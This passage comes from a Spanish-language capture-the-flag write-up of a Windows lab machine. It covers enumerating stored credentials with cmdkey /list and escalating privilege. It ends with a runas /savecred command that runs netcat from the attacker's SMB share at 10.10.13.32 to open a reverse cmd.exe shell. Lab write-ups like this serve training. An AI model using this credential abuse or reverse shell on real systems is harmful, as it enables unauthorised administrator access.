 ``` text

C:\Users\security\Desktop>type user.txt
```

Listo, hemos obtenido la flag de user.

# PrivEsc

Después de verificar algunos datos sobre la cuenta, enumerar y enumerar un rato, encontré algo curioso con cmdkey:

``` text
C:\Users\security\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator

    Target: Domain:interactive=administrator@10.10.10.98
                                                            Type: Domain Password
    User: administrator@10.10.10.98

    Target: Domain:interactive=access\engineer
                                                  Type: Domain Password
    User: access\engineer


C:\Users\security\Desktop>
```

Tenemos almacenadas las credenciales de Administrator para el usuario engineer! Gracias `/list`!

Esto significa que es posible usar las credenciales almacenadas para ejecutar instrucciones en nombre de Administrator.

Por cierto si quieren saber mas sobre cmdkey, les dejo este [link](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey).

# Give me a reverse shell

En mi caso, me complique un poco de más y realice lo siguiente:

Usar las credenciales de Administrator para ejecutar un cmd.exe que remotamente ejecute un netcat que a su vez llame a un cmd. Esto significa que del lado de mi máquina levanta un smbserver y un listener de netcat.

``` text
C:\Users\security>runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \\10.10.13.32\a\nc.exe -vn 10.10.13.32 3001 -e cmd.exe"
```
